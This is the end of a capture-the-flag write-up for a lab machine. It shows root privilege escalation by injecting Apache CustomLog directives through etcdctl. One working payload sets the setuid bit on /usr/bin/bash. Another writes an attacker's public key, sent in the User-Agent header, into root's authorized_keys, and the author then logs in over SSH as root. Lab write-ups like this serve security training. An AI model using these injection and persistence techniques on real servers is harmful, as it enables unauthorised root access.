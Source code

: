 The file gonna look like this : 

```php
<VirtualHost *:80>
	ServerName fake.ten.vl
  CustomLog "|/usr/bin/chmod u+s /usr/bin/bash" common 
#.ten.vl
	DocumentRoot /srv/ten-b94344ef/
</VirtualHost>
```
(Note : if u want to execute a file, dont put the file in ```/tmp``` because apache cannot execute stuff out of /tmp, because daemon has a different /tmp directory than all other processes)

But there is another way to privesc, still using ```CustomLog``` but with ```agent``` :

```bash
ETCDCTL_API=3 /usr/bin/etcdctl put /customers/ten-984902b8/url 'ethicxz.ten.vl
        CustomLog "/root/.ssh/authorized_keys" agent
#'
```
And now on ur local machine :

```bash
curl ethicxz.ten.vl -H 'User-Agent: public_key_here'

ssh -i id_rsa root@ten.vl
```
With that, you can just overwrite everything you want like ```/etc/sudoers```, ```authorized_keys``` etc.

PS : Big thanks to [pr0m0ly](https://x.com/pr0m0ly) to the help he gave to me to root the machine 

sorry if my english was bad and if you have any questions or comments on this write up you can dm me on [instagram](https://instagram.com/eliott.la) or on discord : 'ethicxz.'